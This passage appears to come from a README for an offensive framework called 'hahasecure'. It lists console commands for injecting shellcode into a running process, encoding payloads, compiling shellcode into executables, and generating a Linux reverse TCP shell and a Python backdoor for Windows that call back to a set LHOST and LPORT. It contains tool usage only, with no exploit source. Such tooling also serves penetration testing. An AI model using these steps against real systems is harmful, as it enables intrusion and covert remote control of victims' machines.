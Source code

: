 ### Commands:

- inject <pid>: Inject shellcode into a process with the specified PID.

#### **Example:**
```
hahasecure > use injector
hahasecure/injector > inject 1234
```
4. Encoder Module
- Encode data using XOR, Base64, AES, or ROT13.

### Commands:

- set <option> <value>: Set options like ENCODING and KEY.

- encode <data>: Encode the provided data.

- show options: Show current options.

#### **Example:**

```
hahasecure > use encoder
hahasecure/encoder > set ENCODING xor
hahasecure/encoder > set KEY secret
hahasecure/encoder > encode HelloWorld
```
5. Executable Module
- Compile shellcode into executables for Windows and Linux.

### Commands:

- set <option> <value>: Set options like PLATFORM and OUTPUT.

- generate: Generate an executable.

- show options: Show current options.

#### **Example:**

```
hahasecure > use executable
hahasecure/executable > set PLATFORM windows
hahasecure/executable > set OUTPUT payload.exe
hahasecure/executable > generate
```
#### **Examples:**
- Generate a Linux Reverse TCP Shellcode
```
hahasecure > use shellcode
hahasecure/shellcode > set LHOST 192.168.1.100
hahasecure/shellcode > set LPORT 4444
hahasecure/shellcode > set PLATFORM linux/x64
hahasecure/shellcode > generate
```
- Create a Python Backdoor for Windows
```
hahasecure > use backdoor
hahasecure/backdoor > set LHOST 192.168.1.100
hahasecure/backdoor > set LPORT 4444
hahasecure/backdoor > set PLATFORM python/windows
hahasecure/backdoor > generate
```
- Inject Shellcode into a Process
```
hahasecure > use injector
hahasecure/injector > inject 1234
```